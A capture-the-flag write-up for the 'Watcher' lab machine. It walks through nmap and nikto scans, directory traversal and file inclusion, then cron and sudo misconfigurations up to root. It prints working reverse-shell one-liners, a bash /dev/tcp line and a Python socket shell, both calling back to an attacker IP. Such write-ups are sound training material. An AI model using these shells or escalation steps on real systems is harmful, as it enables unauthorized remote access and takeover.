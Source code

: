```yaml
---

title: Watcher

difficulty: medium

date: "2023-06-07"

author: MatDef

---
```


  

# Information Gathering

  

### nmap
```shell
[REDACTED]
PORT   STATE SERVICE REASON  VERSION

21/tcp open  ftp     syn-ack vsftpd 3.0.3

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey:

|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)

| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7hN8ixZsMzRUvaZjiBUrqtngTVOcdko2FRpRMT0D/LTRm8x8SvtI5a52C/adoiNNreQO5/DOW8k5uxY1Rtx/HGvci9fdbplPz7RLtt+Mc9pgGHj0ZEm/X0AfhBF0P3Uwf3paiqCqeDcG1HHVceFUKpDt0YcBeiG1JJ5LZpRxqAyd0jOJsC1FBNBPZAtUA11KOEvxbg5j6pEL1rmbjwGKUVxM8HIgSuU6R6anZxTrpUPvcho9W5F3+JSxl/E+vF9f51HtIQcXaldiTNhfwLsklPcunDw7Yo9IqhqlORDrM7biQOtUnanwGZLFX7kfQL28r9HbEwpAHxdScXDFmu5wR

|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)

| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBmjWU4CISIz0mdwq6ObddQ3+hBuOm49wam2XHUdUaJkZHf4tOqzl+HVz107toZIXKn1ui58hl9+6ojTnJ6jN/Y=

|   256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)

|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHb7zsrJYdPY9eb0sx8CvMphZyxajGuvbDShGXOV9MDX

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))

|_http-generator: Jekyll v4.1.1

| http-methods:

|_  Supported Methods: GET HEAD POST OPTIONS

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: Corkplacemats

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

 ```


## Website
![](/images/Pasted image 20230707155443.png)


Niktoscan

```shell
[REDACTED]
+ /robots.txt: Entry '/flag_1.txt' is returned a non-forbidden or redirect HTTP code (200). See: https://portswigger.net/kb/issues/00600600_robots-txt-file

+ /robots.txt: contains 2 entries which should be manually viewed. See: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt

+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed

+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649

+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.

+ /: Web Server returns a valid response with junk HTTP methods which may cause false positives.

+ /css/: Directory indexing found.

+ /css/: This might be interesting.

+ /images/: Directory indexing found.

+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/

```

### robots.txt

  ![[images/robot.txt.png]]
  - Secret File not accessable
##### flag_1.txt
![[images/Pasted image 20230707155735.png]]

### Directory Traversal possible
![[images/Pasted image 20230707162434.png]]
##### User List:
- toby
- mat
- ftpuser
- will
-> Sensitive file: Secret file do not read
![[images/Pasted image 20230707162723.png]]
-> Access to ftp
![[images/Pasted image 20230707163026.png]]
##### flag_2.txt
![[images/Pasted image 20230707163105.png]]
#### Local File Inclusion
-> Possible to add (pentestmonkey)php-reverse shell in files
Save location: `/home/ftpuser/ftp/files/rev_shell.php`
Access via Meterpreter/Metasploit
![[images/flag_locations.png]]
##### Flag_3.txt:
![[images/Pasted image 20230707163842.png]]
Can execute sudo without password
![[images/Pasted image 20230707164347.png]]
Spawn a shell: `sudo -u toby /bin/bash`
Access flag_4.txt and download to attacker with nc
![[images/Pasted image 20230707164754.png]]
There is a note
```shell
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
- /etc/crontab
```shell
[REDACTED]
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```
-> Every Minute cow.sh script is running
![[images/Pasted image 20230707165303.png]]
Its modifiable
`toby@watcher:/home/toby/jobs$ echo '/bin/bash -i >& /dev/tcp/10.18.90.87/4444 0>&1' >> cow.sh`
##### flag_5.txt
![[images/Pasted image 20230707173036.png]]
Found note:
```shell
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

```shell
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *

```
Two script: `cmd.py` (writable with mat) and will_script.py
Edit cmd.py which is called by will_script.py
```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.90.87",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' >> cmd.py
```
`sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1`
-> Got Access with will
![[images/Pasted image 20230707174117.png]]
```shell
sudo -l
ls -la /etc/passwd
ls -la /etc/shadow
find / -name id_rsa 2>/dev/null
id #group: adm
```

Search for files with permission-group adm:
```shell
find / -group adm 2>/dev/null
/opt/backups
/opt/backups/key.b64
```
-> Found id_rsa base64 encoded
Connect as Root
```shell
ssh -i id_rsa root@10.10.56.139
```
##### flag_7.txt
![[images/Pasted image 20230707182523.png]]
